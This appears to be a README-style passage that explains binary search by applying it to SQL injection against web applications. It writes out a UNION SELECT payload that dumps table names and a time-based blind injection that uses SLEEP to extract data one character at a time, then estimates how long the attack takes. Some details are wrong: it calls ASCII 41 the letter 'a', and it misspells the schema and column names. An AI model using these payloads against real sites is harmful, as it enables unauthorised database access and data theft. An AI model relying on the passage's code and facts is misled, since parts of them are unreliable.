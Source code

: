 # How is binary search useful?
Well, just by itself, it's not. The example code already knows the secret_value, so there is absolutely no need to deduce it. But there are certain scenario's where one might not actually know the secret_value. Then this little algorithm gets radically more interesting. 

For example, consider this rather common sql query which is uses in many webapplications:

```sql
SELECT x,y FROM z WHERE z.id=10 
```

The value 10 is often supplied by the user. If this value is not properly validated or sanitized, any innocent bystander might make a typo in the URL-bar and turn the query into this:

```sql
SELECT x,y 
FROM z 
WHERE z.id=10 
UNION SELECT 1,GROUP_CONCAT(table_name) 
  FROM information_scheme.tables 
  WHERE table_schema = database()
```

However, more often than not, the webpage doesn't directly show the results of the query directly. This oversight severely limits the websites' functionality. But it doesn't need to stay this way. Consider the following convoluted query carefully:

```sql
SELECT x,y 
FROM z 
WHERE z.id=10 
AND IF( 
	ASCII(
		SUBSTRING(	
			(SELECT GROUP_CONCAT(table_name) 
			FROM information_schema.tables 
			WHERE table_scheme = database()),
			1,1
		)
	) == 41,
	SLEEP(5),
	NULL
)
```
The inner SELECT may return any string, in this case, a concatenation of all table names. Then the IF-statement tests if the first character of this string is equal to 41 (which is the ascii value for 'a'). If this is the case, the database will go sleepy-time for 5 seconds. But if the website is responding quickly, we guessed the first letter wrong. We monitor the response-times closely to see if we have guessed correctly.

Next we query for 'b', 'c', 'd', etc. And once we have a winner, we increment the SUBSTRING-index and continue with the second character, and so on and so forth, Until we know the entire string. This will ofcourse, take ages. Not only do we need to try all a-z and A-Z, but also a bunch of special characters (about 65 in total).

Lets make an optimistic calculation of the time needed for a SMS-message sized string (160 characters):
```
160 characters * ~32 wrong guesses * 1 sec per wrong guess =  5120 seconds
160 characters * 1 correct guess * 2 sec per correct guess = 320 seconds
5120 sec + 320 sec = 5420 sec = about 1.5 hour
```
My life is too short to wait for this. So I wrote binary search in the meanwhile.  

